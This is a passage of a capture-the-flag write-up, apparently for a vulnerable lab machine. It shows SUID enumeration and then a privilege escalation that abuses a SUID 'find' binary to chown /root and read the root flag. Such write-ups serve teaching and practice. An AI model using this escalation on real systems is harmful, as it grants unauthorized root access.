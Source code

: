 Moved to `stoner` via SSH, and run `cat` on the file to find:
```console
$ cat .secret
You made it till here, well done.
```

From here, I checked what we can run as `root` by running `sudo -l`.

```console
stoner@Vulnerable:/$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
```

I also checked `stoner`'s `groups`.

```console
stoner@Vulnerable:/$ groups
stoner adm cdrom dip plugdev lxd lpadmin sambashare
```

At this point, sought out some files with SUID. 

```shell
stoner@Vulnerable:/usr/bin$ find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null

-rwsr-xr-x 1 root root 38900 Mar 26  2019 /bin/su
-rwsr-xr-x 1 root root 30112 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 26492 May 15  2019 /bin/umount
-rwsr-xr-x 1 root root 34812 May 15  2019 /bin/mount
-rwsr-xr-x 1 root root 43316 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 38932 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 13960 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-- 1 root www-data 13692 Apr  3  2019 /usr/lib/apache2/suexec-custom
-rwsr-xr-- 1 root www-data 13692 Apr  3  2019 /usr/lib/apache2/suexec-pristine
-rwsr-xr-- 1 root messagebus 46436 Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 513528 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 5480 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 36288 Mar 26  2019 /usr/bin/newgidmap
-r-sr-xr-x 1 root root 232196 Feb  8  2016 /usr/bin/find
-rwsr-sr-x 1 daemon daemon 50748 Jan 15  2016 /usr/bin/at
-rwsr-xr-x 1 root root 39560 Mar 26  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 74280 Mar 26  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 53128 Mar 26  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 34680 Mar 26  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 159852 Jun 11  2019 /usr/bin/sudo
-rwsr-xr-x 1 root root 18216 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 78012 Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 36288 Mar 26  2019 /usr/bin/newuidmap
```

And finally, granted `stoner` access to `/root` in order to read `root.txt` flag.

```shell
stoner@Vulnerable:/usr/bin$ find . -exec chown stoner /root \;
stoner@Vulnerable:/usr/bin$ ls /root
root.txt
stoner@Vulnerable:/usr/bin$ cat /root/root.txt
```


